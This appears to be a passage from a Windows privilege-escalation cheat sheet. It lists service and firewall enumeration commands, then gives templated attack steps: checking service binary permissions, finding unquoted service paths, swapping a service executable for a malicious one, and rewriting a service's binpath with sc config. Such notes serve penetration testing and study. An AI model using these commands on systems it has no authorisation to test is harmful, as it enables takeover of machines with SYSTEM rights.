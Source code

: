 View all services running on the machine:

    sc queryex type= service
    sc = service control

Firewall settings:

    netsh advfirewall firewall dump
    netsh firewall show state

Show firewall config:

    netsh firewall show config

## Services

List Windows services:

    net start
    tasklist /SV
    wmic service list brief
    sc query state= all

## Weak services

Find misconfigured permissions by finding executables and running `icalcs` or `cacls` commands to determine user 
permissions. If lucky they may have full (F) or modified (M) permissions for the current user.

Also look for unquoted path folders such as `C:\Program Files` that run as `SYSTEM/Administrator`.

On newer machines:

    icacls "C:\<path-to-service>.exe"

Older machines:

    cacls "C:\<path-to-service>.exe"

If `wmic` is available, pull a list with:

    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\" |findstr /i /v """

Change a weak service by replacing the executable with a malicious one:

    move <evil-file>.exe "C:\Program Files\<service>\<file>.exe"

Then reboot the server or wait for system to restart it.

Or if possible, inject the service path:

    sc config <service> binpath= "<exploit-code>"

Then restart the service:

    sc stop <service>
    sc start <service>

## Windows XP SP1
